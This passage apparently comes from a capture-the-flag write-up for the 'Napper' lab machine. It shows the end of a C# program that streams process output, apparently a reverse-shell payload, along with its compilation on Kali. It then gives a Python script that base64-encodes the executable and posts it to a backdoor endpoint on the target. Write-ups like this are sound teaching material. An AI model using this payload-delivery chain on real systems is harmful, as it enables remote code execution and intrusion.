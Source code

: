 ```csharp
          {
              StringBuilder strOutput = new StringBuilder();

              if (!String.IsNullOrEmpty(outLine.Data))
              {
                  try
                  {
                      strOutput.Append(outLine.Data);
                      streamWriter.WriteLine(strOutput);
                      streamWriter.Flush();
                  }
                  catch (Exception err) { }
              }
          }
      }

      public class AnotherClass
      {
          public static void Main(string[] args)
          {
              Run runInstance = new Run();
          }
      }
  }
```

```bash
┌──(kali㉿kali)-[~]
└─$ mcs -out:Program.exe Program.cs
exploit.cs(64,34): warning CS0168: The variable `err' is declared but never used
Compilation succeeded - 1 warning(s)
```

Next up we will craft a simple Python script that will Base64 encode the executable and write the output to a file. The file will then be read and the data will be url encoded before being sent of as a payload.
```bash
┌──(kali㉿kali)-[~]
└─$ cat exploit.py        
import requests
import os

os.system(f'base64 -w0 Program.exe > data.txt')

with open("data.txt",'r') as f:
   payload = f.read()

data=f"sdafwe3rwe23={requests.utils.quote(str(payload))}"

url= f"<https://napper.htb/ews/MsExgHealthCheckd/>"

req = requests.post(url, data=data, verify=False)
```
